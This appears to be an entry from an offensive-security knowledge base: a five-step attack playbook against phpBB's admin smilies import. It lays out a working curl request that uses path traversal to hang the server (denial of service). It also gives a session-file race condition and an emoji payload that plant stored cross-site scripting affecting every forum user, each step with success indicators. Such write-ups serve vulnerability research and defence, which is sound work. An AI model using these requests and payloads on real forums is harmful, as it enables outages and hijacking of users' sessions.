

---
tags:
  - path-traversal
  - stored-xss
  - dos
  - race-condition
  - phpbb
  - php
type: attack_chain
tools:
  - '[[tools/PHP-Built-in-HTTP-Server]]'
  - '[[tools/Browser-Chrome]]'
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
  - '[[Impact]]'
verified: false
platforms:
  - Web
  - Linux
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Authenticate-to-phpBB-Admin-Panel]]'
  - '[[procedures/Exploit-Path-Traversal-for-DoS]]'
  - '[[procedures/Prepare-Malicious-Emoji-Payload-for-XSS]]'
  - '[[procedures/Exploit-Race-Condition-for-XSS-Import]]'
  - '[[procedures/Trigger-Stored-XSS-in-phpBB]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Endpoint Denial of Service]]'
  - '[[JavaScript]]'
  - '[[Stage Capabilities]]'
updated_at: '2025-12-13T23:55:06.110Z'
description: >-
  Multi-stage attack exploiting authenticated path traversal in phpBB's emoji
  import to achieve DoS via hanging file descriptors and stored XSS via race
  conditions on temporary files.
id: 8d3dc298-8b05-4226-bd44-005af8d4fcef
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
  - '[[Impact]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Endpoint Denial of Service]]'
  - '[[JavaScript]]'
  - '[[Stage Capabilities]]'
---
---

# Authenticated Path Traversal in phpBB Leading to Stored XSS and DoS

Multi-stage attack chain demonstrating authenticated exploitation of path traversal in phpBB's acp_icons.php for DoS and chained race condition for stored XSS via malicious emoji import.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/PHP-Built-in-HTTP-Server]]
- [[tools/Browser-Chrome]]

### Target Environment

- phpBB forum on Linux with PHP
- Services: Web server on port 8082
- Tech stack: PHP, phpBB

### Initial Access Requirements

- Valid admin credentials for phpBB
- Network access to the phpBB instance
- No prior access needed beyond authentication

## Detailed Attack Procedures

### Step 1: Authenticate to Admin Panel
procedure: [[procedures/Authenticate-to-phpBB-Admin-Panel]]

**Objective**: Gain access to the phpBB admin control panel to reach the icons/smilies management.

**Instructions**: Log in to the phpBB admin interface using valid credentials to access the smilies management page.

**Expected Output**: Successful login redirect to /adm/index.php?i=acp_icons&mode=smilies.

**Success Indicators**:
- Admin dashboard accessible
- Smilies import form visible

### Step 2: Exploit Path Traversal for DoS
procedure: [[procedures/Exploit-Path-Traversal-for-DoS]]

**Objective**: Use path traversal in the 'pak' parameter to read a hanging file descriptor, causing DoS by indefinite hangs on TCP connections.

**Instructions**: Send a POST request to the smilies import endpoint with traversal payload targeting /proc/self/fd/1 using [[commands/phpbb-path-traversal-dos-import]]:

```bash
curl -X POST "http://127.0.0.1:8082/adm/index.php?i=acp_icons&mode=smilies&current=delete" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Cookie: phpbb3_83bmg_sid=3ba797a8668f6db1639ac6939d91f96e; ..." \
  -d "action=import&pak=../../../../../../../../../proc/self/fd/1&form_token=b2655d5f0c9edb201328b799a61777b26cef16a5&creation_time=1694960302"
```

**Expected Output**: Request hangs indefinitely, no response, leading to server resource exhaustion.

**Success Indicators**:
- Request timeout observed
- Server connections pile up behind proxies

### Step 3: Prepare Malicious Emoji Payload for XSS
procedure: [[procedures/Prepare-Malicious-Emoji-Payload-for-XSS]]

**Objective**: Craft a malicious pak file content that injects XSS payload into the SMILEY_IMG field without sanitization.

**Instructions**: Create the payload string for use in session upload progress, e.g., '"onmouseover=alert() ><script>alert()</script>", "17", "18", "1", "POC", ":POC:",'

**Expected Output**: Payload ready for injection into temporary files.

**Success Indicators**:
- Payload string validated for XSS execution
- No syntax errors in emoji format

### Step 4: Exploit Race Condition for XSS Import
procedure: [[procedures/Exploit-Race-Condition-for-XSS-Import]]

**Objective**: Use PHP_SESSION_UPLOAD_PROGRESS to create a temp session file with XSS payload, then race to import it via path traversal before cleanup.

**Instructions**: First, initiate an upload to create the session file using [[commands/php-race-condition-upload]]:

```bash
curl -X POST "http://127.0.0.1/phpbb/phpBB/posting.php?mode=reply&t=1" \
  -H "Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOo7a3KoNwQen5oAC" \
  -H "Cookie: PHPSESSID=shin24; ..." \
  --data-binary "@upload_payload.txt"  # Where upload_payload.txt contains the multipart with PHP_SESSION_UPLOAD_PROGRESS
```

Immediately follow with import using [[commands/phpbb-path-traversal-xss-import]]:

```bash
curl -X POST "http://127.0.0.1:8082/adm/index.php?i=acp_icons&mode=smilies&current=delete" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Cookie: PHPSESSID=shin24; ..." \
  -d "action=import&pak=../../../../../../../../../var/lib/php/sessions/sess_shin24&form_token=68340f4826dcfa788b02f1d01ad3b74b06b64bde&creation_time=1695113245"
```

**Expected Output**: Malicious emoji imported successfully if raced before session file deletion.

**Success Indicators**:
- Emoji list updated with new entry
- No import error

### Step 5: Trigger Stored XSS
procedure: [[procedures/Trigger-Stored-XSS-in-phpBB]]

**Objective**: View affected sections to execute the stored XSS payload, impacting all users.

**Instructions**: Navigate to posts, comments, or admin sections where the malicious emoji is displayed.

**Expected Output**: XSS alert or payload execution on mouseover or load.

**Success Indicators**:
- JavaScript alert triggered
- Potential defacement or cookie theft

## Attack Chain Summary

### Key Achievements

1. Achieved DoS via path traversal to hanging descriptors
2. Bypassed file write restrictions using race on session files
3. Stored persistent XSS affecting all forum users

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Endpoint Denial of Service]]
- [[JavaScript]]
- [[Stage Capabilities]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]
- [[Impact]]

---

*Last updated: 2023-10-01T00:00:00Z*
